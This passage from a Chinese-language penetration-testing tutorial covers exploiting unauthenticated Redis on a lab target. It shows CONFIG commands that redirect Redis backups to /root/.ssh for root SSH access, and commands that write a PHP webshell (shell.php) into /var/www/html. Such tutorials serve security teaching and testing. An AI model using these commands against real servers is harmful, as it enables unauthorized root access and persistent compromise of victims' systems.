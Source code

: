 远程登录到靶机 redis 数据库，并使用`CONFIG GET dir`命令得到redis备份的路径：

[![](assets/1702372985-d778cf2b0db9a6f2c836c572dc610942.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/15.png)

更改redis备份路径为ssh公钥存放目录（一般默认为`/root/.ssh`）：

[![](assets/1702372985-9f6b483f68d61220babbee4a78fb2df2.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/16.png)

此时通过ssh 连接到靶机

```plain
ssh -i id_rsa root@<ip>
```

[![](assets/1702372985-63fc3f261446f195d201647cadea8d7c.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/17.png)

### [](#4-%E5%88%A9%E7%94%A8redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99-Webshell "4.利用redis 未授权写 Webshell")4.利用redis 未授权写 Webshell[](#4-%E5%88%A9%E7%94%A8redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99-Webshell)

利用前提：

-   靶机redis链接未授权，在攻击机上能用`redis-cli`连上
-   当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell

此时我们需要知道目标的 web路径，示例写入的是apache的默认安装路径

```plain
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```
